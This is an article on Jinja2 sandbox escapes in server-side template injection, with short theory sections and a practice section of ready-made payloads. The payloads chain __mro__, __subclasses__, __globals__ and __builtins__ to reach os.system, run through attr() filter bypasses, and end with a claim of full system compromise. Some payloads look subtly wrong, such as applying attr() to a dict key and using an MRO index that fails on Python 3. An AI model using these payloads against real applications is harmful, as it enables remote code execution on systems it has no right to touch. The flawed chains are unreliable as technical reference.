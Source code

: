 ```yaml
---
title: Mastering Jinja2 Sandbox Escapes Techniques
description: Explore key strategies for bypassing Jinja2 sandbox restrictions in SSTI,
  enabling command execution and vulnerability exploitation.
keywords:
- sandbox escape
- Jinja2
- SSTI
- Python
- __import__ bypass
- __builtins__ access
- __subclasses__
- attr() function
- sandboxing
---
```


# Sandbox Escapes

## Context

This article focuses on exploiting sandbox escapes in server-side template injection (SSTI) scenarios, particularly with Python's Jinja2 template engine. The reader should have prior understanding of sandboxing concepts, template engine mechanisms, and Python interpreter basics. Familiarity with the fundamentals of Server Side Template Injection is also assumed.

## Theory

### Sandboxing in Template Engines

Sandboxing aims to restrict the execution of template code to prevent access to potentially dangerous functions or objects in the system environment. Within SSTI sandboxes, these restrictions attempt to block access to Python built-ins, imports, and sensitive attributes to mitigate the risk of arbitrary code execution.

### Common Sandbox Escape Vectors in Jinja2/Python

Sandbox escapes take advantage of inadequate filtering or logical flaws to access restricted Python objects. Attackers may employ techniques such as attribute access chaining, class hierarchy traversal, or filter bypasses to reach and execute sensitive functionalities. 

### Key Techniques for Sandbox Escape

#### __import__ Bypass

This technique involves accessing Python's import mechanism through template expressions, thereby reaching functionalities that are otherwise restricted.

#### __builtins__ Access

By leveraging the context of a template, it's possible to access Python's built-in functions and objects, effectively bypassing sandbox restrictions.

#### __subclasses__ Enumeration

By traversing class hierarchies, an attacker can locate and instantiate classes which are powerful enough to perform system-level operations.

#### attr() Function Bypass

Utilizing the `attr()` function, attackers can dynamically access otherwise restricted attributes, bypassing certain access controls.

#### Filter/Whitelist Bypass

Through creative attribute or method access, attackers can circumvent blacklists or whitelists designed to block dangerous functionalities.

#### globals() Access Bypass

Gaining access to the global namespace can allow attackers to manipulate or execute arbitrary code, greatly expanding the potential attack surface.

### Class Hierarchy and MRO Exploitation

Python’s Method Resolution Order (MRO) and `__subclasses__` method facilitate the traversal of class relationships. By enumerating subclasses, attackers can locate classes like `file`, `os`, or `subprocess` and employ them for code execution.

## Practice

### Accessing __import__ via Jinja2 Expression

- **Step 1**: Enumerate subclasses to find `warnings.catch_warnings` or similar using the following payload:
  
    ```python
    {{ [].__class__.__mro__[1].__subclasses__() }}
    ```

- **Step 2**: Once identified, achieve command execution by escaping the sandbox and invoking system commands:

    ```python
    {{ [].__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['__builtins__']['__import__']('os').system('id') }}
    ```

    Replace `<index>` with the correct subclass index.

### Bypassing Filters with attr() Function

- **Step 1**: Identify useful subclasses using this payload:

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    ```

- **Step 2**: Use `attr()` to bypass access restrictions and execute arbitrary commands:

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__()[<index>]|attr('__init__')|attr('__globals__')|attr('__builtins__')|attr('__import__')('os').system('id') }}
    ```

### Accessing Built-ins via globals()

- **Step 1**: Directly access 'os' in globals with this payload:

    ```python
    {{''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].system('id')}}
    ```

### Chaining Whitelist Bypasses

- **Step 1**: Leverage template context to reach sensitive classes using:

    ```python
    {{ config.items()[0][1].__class__.__mro__[2].__subclasses__()[<index>].__init__.__globals__['os'].system('id') }}
    ```

## Tools

- **Burp Suite**
- **curl**
- **wfuzz** 

By following these approaches, a skilled attacker can effectively bypass sandbox restrictions in vulnerable template engines like Jinja2, allowing for arbitrary code execution and potentially full system compromise.